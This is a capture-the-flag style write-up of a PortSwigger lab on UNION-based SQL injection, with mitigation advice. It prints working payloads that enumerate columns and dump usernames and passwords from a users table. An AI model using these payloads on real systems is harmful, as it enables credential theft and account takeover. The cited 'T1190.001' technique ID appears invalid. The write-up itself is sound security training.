

# SQL Injection - UNION Attack: Retrieve Data

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `category` parameter in GET request
- **Vulnerability Type**: T1190.001 - SQL Injection: UNION Data Extraction (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified category parameter as potential injection point
- Performed systematic input validation testing

**Step 1: Determining Column Count**

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 200 OK

**Step 2: Identifying String-Compatible Columns**

**Testing first column:**
```sql
' UNION SELECT 'a',NULL--
```
Response: HTTP/2 200 OK

**Testing second column:**
```sql
' UNION SELECT NULL,'a'--
```
Response: HTTP/2 200 OK

**Testing both columns:**
```sql
' UNION SELECT 'a','a'--
```
Response: HTTP/2 200 OK

**Step 3: Retrieving Data from Users Table**

```sql
' UNION SELECT username,password FROM users--
```



This retrieved all usernames and passwords including the administrator.

Logged in as the administrator using the password retrieved.

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Confidentiality | High – Sensitive user data exposed |
| Authentication | High – Credentials leaked |
| Information Disclosure | High – Database structure revealed |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#mitigation)

- Restrict database permissions using the principle of least privilege.

---

## Reflection

This lab demonstrated how to retrieve sensitive data from other tables using UNION-based SQL injection. The `UNION SELECT` technique proved highly effective in extracting usernames and passwords from the users table. Learned the critical importance of proper input validation and database access controls to prevent unauthorized data access.

---

## Notes

